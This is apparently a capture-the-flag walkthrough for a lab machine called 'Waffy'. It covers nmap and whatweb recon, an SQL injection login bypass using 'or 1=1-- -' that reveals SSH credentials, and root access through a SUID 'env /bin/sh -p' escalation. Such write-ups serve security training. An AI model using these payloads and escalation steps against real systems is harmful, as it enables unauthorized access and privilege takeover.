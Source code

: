 # Waffy

## Recon

### Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## :80

* whatweb scan reports a 403 forbidden
* replacing the user agent gives information

```bash
$whatweb --user-agent 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36' http://172.17.0.2/ | tee -a ww.out

http://172.17.0.2/ [200 OK] Apache[2.4.58],
Cookies[PHPSESSID], Country[RESERVED][ZZ], 
HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)],
IP[172.17.0.2],
PasswordField[password],
Title[Iniciar Sesión]
```

### SQLI

#### Recon

* Apostrophe test -> sql error
* MariaDB

Request: `GET /index.php?name=%27&password=PASSWORD123&submit=Login`

Response: `SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'PASSWORD123'' at line 1`

> points of interest:
> * 'PASSWORD123'''
> * the PasswordField is related to the sqli

> hypothesis:
> * sqli reveals credentials
> * ~~sqli common parameters are blocked and need a special form on injection~~

Request:

`GET /index.php?name=%27%29&password=x&submit=Login HTTP/1.1`

Response:

`SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ')' AND passwd = 'x'' at line 1`

#### Exploit

Request:

`GET /index.php?name=%27&password=or+1%3D1--+-&submit=Login`

Response:

/admin.php

```
¡Bienvenido, balutin! 🎉
¡Felicidades! Has logrado hacer un bypass del WAF con éxito.

A continuación tienes los datos de acceso SSH:

Usuario: baluton Contraseña: balulerobalulon
Recuerda: ¡Con gran poder viene gran responsabilidad!
```

## :22

### Access as "baluton"

#### Recon

* suid binaries

```bash
$ find / -type f -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/su
/usr/bin/umount
/usr/bin/mount
/usr/bin/env
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

* `env`+`suid` has a privesc exploit method https://gtfobins.github.io/gtfobins/env/#suid

#### Exploit - Root

```bash
baluton@3dd13cac628a:~$ env /bin/sh -p
# whoami
root
```

